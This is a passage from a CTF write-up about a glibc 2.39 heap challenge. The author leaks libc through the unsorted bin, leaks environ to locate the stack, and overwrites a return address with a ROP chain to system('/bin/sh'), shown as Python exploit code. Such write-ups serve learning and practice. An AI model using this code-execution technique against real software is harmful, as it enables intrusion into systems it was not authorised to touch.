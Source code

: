 ![unsorted bin](./Images/unsorted.png)

We have a pointer to the libc !

![yes](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExZDFjODhjZGZ1YWw5d3EwbXN5cjloNm9pZ3VtbmdkeHd4a2l0NXY3cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/SaX384PjtDl2U/giphy.gif)

But it's 8 minutes before the end of the CTF and it's gibc 2.39...

![sad](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbHZ6MXZlYnV4NzJmaGlrcHc0aGllaXhnYzFrOXVuMmpienppamY1diZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/9Y5BbDSkSTiY8/giphy.gif)

What I didn't say, is that I forgot I had to use chunks of a size over 0x90 bytes to get one in the unsorted bin and waisted almost an hour trying to do other challs instead. But I mean it was 4 in the morning... (mostly skill issue and blindness)

Anyway, I liked the chall, and haven't had the occasion to get an rce on such a recent libc yet so I thought I'd still finish and write about it. 

Quite recently I came across [this article](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) (thanks KingJoestar) made by nobodynobody that shows us in detail how to RCE on libc 2.38. Obviously some of these techniques probably still work. And the simplest one seemed to be last one : leaking `environ` to get the stack, debugging to find out the offset between `environ` and a pointer used to `return`, overwriting it with a ropchain calling `system("/bin/sh")` (that could have been done in less than 8 minutes if I'd known about it which I could have if i actually read the whole article the first time around instead of being lazy but anyway I'm absolutly not salty at all don't you worry about me). That gives us :

```python
leak = read(p64(libc.sym["environ"]))
environ = int.from_bytes(leak, "little")

system = p64(libc.sym["system"])
sh = p64(next(libc.search(b"/bin/sh")))
pop_rdi = p64(0x000000000010f75b + libc.address) # pop rdi ; ret
ret = p64(0x000000000002882f + libc.address) # ret

payload = b"".join([
    pop_rdi,
    sh,
    ret,
    system,
])
write(p64(environ-352), payload)
p.interactive()
```

[ERROR]: Invalid Size
[ERROR]: Invalid Size